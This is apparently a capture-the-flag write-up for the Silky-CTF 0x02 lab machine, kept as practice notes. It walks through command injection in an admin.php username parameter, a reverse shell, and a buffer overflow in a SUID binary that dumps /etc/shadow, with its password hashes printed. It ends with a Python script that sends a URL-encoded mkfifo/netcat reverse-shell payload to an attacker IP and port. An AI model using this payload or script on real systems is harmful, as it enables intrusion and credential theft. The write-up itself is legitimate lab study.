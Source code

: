 # Silky-CTF 0x02

## Nmap
````
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-27 17:02 WEST
Nmap scan report for 10.0.2.33
Host is up (0.00047s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 eb:74:50:5c:6f:57:04:15:bd:8c:57:ff:eb:a2:9f:58 (RSA)
|   256 97:50:40:64:05:4e:57:44:7d:31:a7:60:84:0a:9d:5c (ECDSA)
|_  256 fe:6e:fa:67:54:96:a7:bd:54:45:10:30:1c:20:c3:61 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.05 seconds
````

## Port 80
## Default Apache page

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/02bcf962-fc1e-4fe8-a57c-6513d694080b)


## Gobuster

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/85e64934-4d15-45cc-af37-6955be9e981b)


## /admin.php

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/84cd50c0-28ae-48e6-b7d6-aa97120e10af)


After pressing 'login', this form appears. No default credentials. Let's try SQLi. And analyze that image a bit since it seems weird. Steganography maybe?

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/d2262e0a-2e1a-439b-ae48-747681a187b9)

Ran a bunch of tools against the image (strings, text editors, hexeditor, etc...) and nothing.

Got command injection on 'username' GET parameter!

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/e70a95d4-3e27-4ac9-b3e0-240e611a996f)

#### Reverse Shell

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/d4eabb79-c6f5-48ef-bef4-6096ca226afd)


## Privilege Escalation

There is an interesting file with the SUID bit in our home folder. It appears to be simply catting /etc/shadow, but I'll try running it with Pspy in parallel

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/a758ef7d-b151-4639-9ba8-8f82fe62c36f)

Pspy doesn't show anything, but the program itself has an interesting output

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/8fafa8f7-1bfe-4764-a32a-52b5ff281a88)

Strings is a bit confusing, so I exfiltrated the file to my attacker machine

````
base64 cat_shadow -w0
(copy to clipboard, paste to a file inside my machine)
base64 -d b64Cat_shadow > cat_shadow
````

## Testing the binary

I fired up ghidra but I got nothing especial. I then tried a super long password in order to cause a buffer overflow, and the output on the left finally changed to something, previously it was always 0x0

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/d877b364-026f-4d51-80fe-9ca3b20f5fcc)

So, I know what I have to do... And I found the position of the 4 characters that change the password

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/6363903a-9763-4cf6-982b-4b512a8a9d50)


Sending AAAA in the payload part outputs the following

``0x41414141 != 0x496c5962``

Well, it's hex to ascii. Just have to switch the bytes around...

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/fa1c1fb4-4c2c-48ff-903a-1aa5f403382a)

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/cbfd53fc-1cb5-49c7-8366-c95fa41ea2a6)

And boom! This is on my system so that's why we got permission denied. Let's try it on the victim

````
www-data@Silky-CTF0x02:/home/silky$ ./cat_shadow 0000000000000000000000000000000000000000000000000000000000000000bYlI0000000
Trying to read /etc/shadow           
Succes      
Printing...
root:$6$L69RL59x$ONQl06MP37LfjyFBGlQ5TYtdDqEZEe0yIZIuTHASQG/dgH3Te0fJII/Wtdbu0PA3D/RTxJURc.Ses60j0GFyF/:18012:0:99999:7:::
daemon:*:18012:0:99999:7:::
bin:*:18012:0:99999:7:::
sys:*:18012:0:99999:7:::
sync:*:18012:0:99999:7:::
games:*:18012:0:99999:7:::
man:*:18012:0:99999:7:::
lp:*:18012:0:99999:7:::
mail:*:18012:0:99999:7:::
news:*:18012:0:99999:7:::
uucp:*:18012:0:99999:7:::
proxy:*:18012:0:99999:7:::
www-data:*:18012:0:99999:7:::
backup:*:18012:0:99999:7:::
list:*:18012:0:99999:7:::
irc:*:18012:0:99999:7:::
gnats:*:18012:0:99999:7:::
nobody:*:18012:0:99999:7:::
systemd-timesync:*:18012:0:99999:7:::
systemd-network:*:18012:0:99999:7:::
systemd-resolve:*:18012:0:99999:7:::
systemd-bus-proxy:*:18012:0:99999:7:::
_apt:*:18012:0:99999:7:::       
dnsmasq:*:18012:0:99999:7:::
avahi-autoipd:*:18012:0:99999:7:::
messagebus:*:18012:0:99999:7:::
usbmux:*:18012:0:99999:7:::
geoclue:*:18012:0:99999:7:::
speech-dispatcher:!:18012:0:99999:7:::
rtkit:*:18012:0:99999:7:::
pulse:*:18012:0:99999:7:::
avahi:*:18012:0:99999:7:::
colord:*:18012:0:99999:7:::
saned:*:18012:0:99999:7:::
Debian-gdm:*:18012:0:99999:7:::
hplip:*:18012:0:99999:7:::
silky:$6$F0T5vQMg$BKnwGPZ17UHvqZLOVFVCUh6CrsZ5Eu8BLT1/uX3h44wtEoDt9qA2dYL04CMUXHw2Km9H.tttNiyaCHwQQ..2T0:18012:0:99999:7:::
mysql:!:18012:0:99999:7:::
sshd:*:18012:0:99999:7:::
````

Let's unshadow and crack this. So I saved the important bits of /etc/shadow and /etc/passwd to my machine

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/fdeed623-9f36-4dc2-b20f-840a38882a3e)

And now we play the waiting game

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/61254f7c-3970-4226-a1d4-4d2ee4a9f7b5)

A few minutes later

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/509b80b2-c1a9-4a5d-83f3-da8b0e8684bb)

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/965711a5-e175-4531-8208-760a556cf98d)


Really fun CTF! But I'm not sure how this relates to the OSWE.

___

Anyway a few weeks later, here's the scripting automating the web part, which is pretty simple. I also re-did the PE part with ghidra, that was definitely a better and easier approach.

````
import requests
import sys

print("Open a listener on port "+ sys.argv[3]+ "!")

url = sys.argv[1] #http://10.0.2.8
ip = sys.argv[2] #10.0.2.4
port = sys.argv[3] #1337

requests.get(url + '/admin.php?username=a\'%23\'%20%7crm%20%2ftmp%2ff%3bmkfifo%20%2ftmp%2ff%3bcat%20%2ftmp%2ff%7c%2fbin%2fsh%20-i%202%3e%261%7cnc%20' + ip + '%20' + port + '%20%3e%2ftmp%2ff&password=x')
````

